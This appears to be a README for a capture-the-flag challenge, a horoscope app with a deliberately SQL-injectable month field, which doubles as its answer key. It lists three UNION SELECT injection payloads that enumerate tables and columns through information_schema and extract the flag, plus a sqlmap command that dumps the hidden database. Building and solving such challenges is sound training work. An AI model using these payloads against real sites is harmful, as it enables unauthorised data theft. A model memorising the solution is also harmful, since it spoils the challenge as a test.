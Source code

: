 # Horoscope Generator

Users enter their birth month, day, and year. Month is SQL injectable, but the first x characters need to be an actual month for the app to accept it, and the day and year need to be numeric as well.

After injecting, there's a troll table in the current database named "flags", which just has a list of countries and descriptions of their national flags. The attacker will have to find the second database, find the flag table, then select the flag. To make this trickier, the app only outputs one row of the result, so additional SQL to select a certain row is necessary. Can be done with SQLmap, but requires a lot of tinkering to get it to work.

Injections:

1. List tables 1 by 1
  * `" union select concat(concat(table_schema, '.'), table_name) from information_schema.tables where table_schema != 'mysql' and table_schema != 'information_schema' limit 1 offset 3;#`
2. List columns in private.flag
  * `" union select column_name from information_schema.columns where table_schema = 'private' and table_name = 'flag' limit 1 offset 2;#`
3. Pull the flag
  * `" union select flag from private.flag limit 1 offset 1;#`
  
SQLmap:
`sqlmap --data='month=May&day=1&year=1999' --level=5 -u http://(challenge site)/index.php --threads=4 -D private --dump`
